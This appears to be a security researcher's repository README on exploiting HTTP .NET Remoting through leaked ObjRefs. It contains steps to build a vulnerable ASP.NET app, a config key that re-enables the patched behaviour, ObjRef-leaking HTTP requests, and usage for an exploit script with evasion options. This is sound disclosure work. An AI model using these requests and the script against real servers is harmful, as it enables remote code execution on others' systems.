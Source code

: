 # Leaking and Exploiting `ObjRef`s via HTTP .NET Remoting

This repository provides further details and resources on the [CODE WHITE blog post of the same name *Leaking ObjRefs to Exploit HTTP .NET Remoting*](https://code-white.com/blog/leaking-objrefs-to-exploit-http-dotnet-remoting/):

1. Creating a vulnerable ASP.NET web application
2. Detecting `ObjRef` leaks
3. Example deserialization payloads that work under the `TypeFilterLevel.Low` restrictions
4. Exploit script for delivering the payloads


## 1. Creating a Vulnerable ASP.NET Web Application

The following is based on [*Configure Application Insights for your ASP.NET website* by Microsoft](https://learn.microsoft.com/en-us/azure/azure-monitor/app/asp-net) and describes how to create a vulnerable ASP.NET web application with Visual Studio 2019 (required to target .NET Framework 4.5.2, you can still download it at <https://aka.ms/vs/16/release/vs_community.exe>) and Microsoft Application Insights:

1. Open Visual Studio 2019.
2. Select **File** > **New** > **Project**.
3. Select **ASP.NET Web Application (.NET Framework) C#**, then **Next**.
4. Select **.NET Framework 4.5.2**, then **Create**.
5. Select **Empty**, then **Create**.
6. Select **Project** > **Add Application Insights Telemetry**.
7. Select **Application Insights SDK (local)**, then **Next**.
8. Check **NuGet packages**, then click **Finish**.

If the .NET Framework updates of January 2024 are installed, open the `Web.config` file and add the following under [`/configuration/appSettings`](https://learn.microsoft.com/en-us/dotnet/framework/configure-apps/file-schema/appsettings/appsettings-element-for-configuration) to re-enable the vulnerable behavior:

```xml
<add key="microsoft:Remoting:LateHttpHeaderParsing" value="true" />
```

You can then run the web application via **Debug** > **Start Without Debugging** or by pressing Ctrl+F5.


## 2. Detecting `ObjRef` Leaks

You can use the following requests to leak `ObjRef`s of `MarshalByRefObject` instances stored in the `LogicalCallContext`:

- `BinaryServerFormatterSink`:

    ```
    GET /RemoteApplicationMetadata.rem?wsdl HTTP/1.0
    __RequestVerb: POST
    Content-Type: application/octet-stream
    ```

- `SoapServerFormatterSink`:

    ```
    GET /RemoteApplicationMetadata.rem?wsdl HTTP/1.0
    __RequestVerb: POST
    Content-Type: text/xml
    ```

Leaked `ObjRef` URIs can then be matched using the following regex:

```
/[0-9a-f_]+/[0-9A-Za-z_+]+_\d+\.rem
```


## 3. Example Deserialization Payloads

We have created two simple deserialization payloads based on the [*TextFormattingRunProperties* gadget of YSoSerial.Net](https://github.com/pwntester/ysoserial.net/blob/master/ysoserial/Generators/TextFormattingRunPropertiesGenerator.cs) with custom XAML payloads that work under the restrictions caused by `TypeFilterLevel.Low` to perform the following:

- `HttpContext.Current.Response.AddHeader("Set-Cookie", "x=ad92afb4-00c3-4479-bab8-2425b5716081")`
- `HttpContext.Current.Response.RedirectLocation = "/ad92afb4-00c3-4479-bab8-2425b5716081"`

The HTTP headers can be observed in the server's response to the HTTP .NET Remoting request.


## 4. Exploit Script

The `RemoteApplicationMetadata.py` script provides a way for leaking existing `ObjRef` and then using it in a subsequent request to deliver a given payload:

```
usage: RemoteApplicationMetadata.py [-h] [-c] [--chunk-range CHUNK_RANGE] [-e] [-f {binary,soap}] [-u] [-v] url [file]

positional arguments:
  url                   target URL (without `RemoteApplicationMetadata.rem`)
  file                  BinaryFormatter/SoapFormatter payload file (default: stdin)

options:
  -h, --help            show this help message and exit
  -c, --chunked         use chunked Transfer-Encoding for request
  --chunk-range CHUNK_RANGE
                        range to pick the chunk size from randomly, e. g., 1-10
  -e, --encoding        apply a random non ASCII-based encoding on SOAP
  -f {binary,soap}, --format {binary,soap}
                        targeted runtime serializer format (default: soap)
  -u, --use-generic-uri
                        use the generic `RemoteApplicationMetadata.rem` also for the payload delivery request
  -v, --verbose         print verbose info
```

Example:

```
./RemoteApplicationMetadata.py -f binary https://127.0.0.1:44365 AddHeader.bin -u -v
```
